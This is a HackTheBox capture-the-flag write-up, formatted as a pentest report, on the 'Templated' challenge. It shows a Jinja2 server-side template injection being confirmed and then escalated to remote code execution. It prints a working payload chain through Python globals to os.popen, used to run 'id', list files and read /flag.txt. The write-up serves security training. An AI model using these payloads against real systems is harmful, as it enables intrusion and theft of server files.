





**Pentest Report — Templated**

**Platform:** HackTheBox

**Analyst:** Kerneth

**Date:** 17/09/2025

**Mission Status:** ✅ Successfully Completed

---

### 🎯 Executive Summary

The following site tested is Templated. It's a website under construction. There is nothing on it.

### 🛠️ Scope & Methodology

* Nmap
* Gobuster
* BurpSuite – interception & endpoint discovery  
* Manual input fuzzing – testing injection points  
* Jinja2 SSTI payloads – template injection exploitation  
* OS command execution – confirmation of RCE

### 🔍 Findings

| Vulnerability         | Impact       | Severity |
| --------------------- | ------------ | -------- |
| SSTI in Personal Info | Leads to RCE | Critical |

The first thing that we can see is that the template is jinja2.

If I inject {{7*7}} it returns 49, so it's effectively a SSTI

### 🧩 Exploitation Walkthrough

The next thing is to use this SSTI into a RCE.

I have tested with this code, in the first time with "id"

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("id").read() }}

👉 What it does:

  self._TemplateReference__context → accesses the internal context of the Jinja engine.

  .cycler → a Jinja object that holds references to internal functions.

  .__init__.__globals__ → climbs up to the Python global variables accessible in this context.

  .os → retrieves the os module from those globals.

  .popen("id").read() → executes the system command id and reads its output.

We can see the id, so it worked.

The next step is to find the flag.

I used 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls").read() }}

to see what we've got in the / directory

And 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat /flag.txt").read() }}

to see what is the flag.

### ✅ Conclusion

The engagement against **templated** demonstrated a critical vulnerability in the web application:  
a **Server-Side Template Injection (SSTI)** in the “Personal Information” field, which escalated to a full **Remote Code Execution (RCE)** on the host.  

Through controlled exploitation, we confirmed the ability to execute arbitrary system commands and retrieve sensitive files (including the target flag).  

**Impact:**  
An attacker with this access could completely compromise the confidentiality, integrity, and availability of the application and its data.  

**Mission outcome:**  
The target was successfully compromised, mission objectives achieved.  

